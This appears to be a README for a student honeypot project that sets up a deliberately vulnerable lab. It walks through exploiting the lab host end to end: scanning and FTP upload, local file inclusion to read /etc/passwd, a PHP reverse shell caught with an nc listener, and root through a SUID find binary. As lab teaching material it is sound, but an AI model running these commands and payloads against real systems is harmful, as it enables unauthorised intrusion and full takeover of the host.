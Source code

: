 # **NRT Blue Team Project - Honeypot**

<hr>

## **Introduction**
A script to mount a Local File Inclusion (LFI) vulnerability for the Honeypot.

<br>

## **Installation**
Please `clone` the git and run the `./setup.sh` script to set up the vulnerability ...

<br>

## **Exploitation**

Walkthrough of how to exploit the vulnerability.

#### **Enumeration**
We'll begin with a `nmap` scan.

```bash
$ sudo nmap -sS 192.168.12.10
Starting Nmap 7.80 ( https://nmap.org ) at 2021-09-14 13:36 AEST
Nmap scan report for 192.168.12.10
Host is up (0.00041s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:06:9F:AA (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 0.27 seconds
```

There are three opened services, let's us start with `ftp`.

#### **FTP Enumeration**
To access the `ftp` file share, we utilize the `ftp` command with the credentials of `anonymous:anonymous`.

```bash
$ ftp 192.168.12.10
Connected to 192.168.12.10.
220 (vsFTPd 3.0.3)
Name (192.168.12.10:jaenguyen): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -al
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 ftp      ftp          4096 Sep 14 03:35 .
drwxr-xr-x    3 ftp      ftp          4096 Sep 14 03:35 ..
drwxrwxrwx    2 ftp      ftp          4096 Sep 14 03:35 pub
226 Directory send OK.
```

Listing the share with `ls -al`, we discover a `pub` directory.

```bash
ftp> cd pub
250 Directory successfully changed.
ftp> ls -al
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 ftp      ftp          4096 Sep 14 03:35 .
drwxr-xr-x    3 ftp      ftp          4096 Sep 14 03:35 ..
-rw-r--r--    1 ftp      ftp            22 Sep 14 03:35 pubf.txt
226 Directory send OK.
```

Navigating to the directory, there is a `pubf.txt` file.

From the `ftp` interactive shell, we run `get <file>` to download a file and `put <file>` to upload a file.

+ Download a file.

```bash
ftp> get pubf.txt
local: pubf.txt remote: pubf.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for pubf.txt (22 bytes).
226 Transfer complete.
22 bytes received in 0.00 secs (190.1272 kB/s)
```

Inspect the content of `pubf.txt`

```bash
$ cat pubf.txt 
/var/ftp/pub/pubf.txt
```

→ The `/var/ftp/pub/` direcotry seems to be an absolute location to the file `pubf.txt` ...  

+ Upload a random file.

```bash
ftp> put test
local: test remote: test
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp            22 Sep 14 03:50 pubf.txt
-rw-------    1 ftp      ftp             0 Sep 14 03:52 test
226 Directory send OK.
```

The result indicates the `test` file has been successfully uploaded.

#### **HTTP Service**
Now, let's move on to enumerating the hidden directory with `gobuster`.

```bash
$ gobuster dir -u http://192.168.12.10 -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.12.10
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-1.0.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/09/14 13:58:46 Starting gobuster in directory enumeration mode
===============================================================
/development          (Status: 301) [Size: 320] [--> http://192.168.12.10/development/]
/assets               (Status: 301) [Size: 315] [--> http://192.168.12.10/assets/]     
/forms                (Status: 301) [Size: 314] [--> http://192.168.12.10/forms/]
```

We drop our attention toward the `/development` directory.

Navigate to the `/development/` →  Click on `ABOUT US`, we are redirected to a new `about-us` page.

We notice that the entry URL of the page is: `...?view=about-us.html`, which might be vulnerable to LFI.

To test our theory, we can use `curl`.

```bash
$ curl -s http://192.168.12.10/development/index.php?view=../../../../../../../etc/passwd
[...]
<p>root:x:0:0:root:/root:/bin/bash
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
ftp:x:112:118:ftp daemon,,,:/srv/ftp:/bin/false
[...]
```

The output successfully returns the contents of the `passwd` file in the target system.


#### LFI → Remote Code Execution (RCE)
Recalling the `pubf.txt` file we discovered previously, let's us pull a reverse shell by following the below steps.

[1]. Upload a [php reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) onto the `ftp` file share.

(Please change the `ip` and `port` to the ones of your local machine)

```bash
ftp> put php-reverse-shell.php
local: php-reverse-shell.php remote: php-reverse-shell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
3460 bytes sent in 0.00 secs (11.9123 MB/s)
ftp> ls -al
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 ftp      ftp          4096 Sep 14 04:12 .
drwxr-xr-x    3 ftp      ftp          4096 Sep 14 03:50 ..
-rw-------    1 ftp      ftp          3460 Sep 14 04:12 php-reverse-shell.php
-rw-r--r--    1 ftp      ftp            22 Sep 14 03:50 pubf.txt
-rw-------    1 ftp      ftp             0 Sep 14 03:52 test
226 Directory send OK.
```

[2]. Trigger the shell.

+ On the first terminal, we set up `nc` listener.

```bash
$ sudo nc -nlvp <LocalPort>
```

+ On the second terminal, we call the shell as below.

```bash
$ curl -s 192.168.12.10/development/index.php?view=../../../../../../var/ftp/pub/php-reverse-shell.php
```

After the command is executed, our `nc` should catch the shell as `www-data`.

```bash
$ sudo nc -nlvp 80
Listening on 0.0.0.0 80
Connection received on 192.168.12.10 52806
Linux ubuntu-xenial 4.4.0-210-generic #242-Ubuntu SMP Fri Apr 16 09:57:56 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 04:15:14 up 25 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

#### Privilege Escalation

##### SUID Abuse
Local enumeration divulges a misconfigured `suid` binary that we can abuse to escalate your privilege.

```bash
$ find / -perm -u=s -ls 2>/dev/null
[...]
    24208    220 -rwsr-sr-x   1 root     root         221768 Feb  7  2016 /usr/bin/find
[...]
```

We continue executing ...

```bash
www-data@ubuntu-xenial:/$ find . -exec /bin/bash -p \; -quit
find . -exec /bin/bash -p \; -quit
bash-4.3# whoami
root
```

and successfully obtained the root shell.
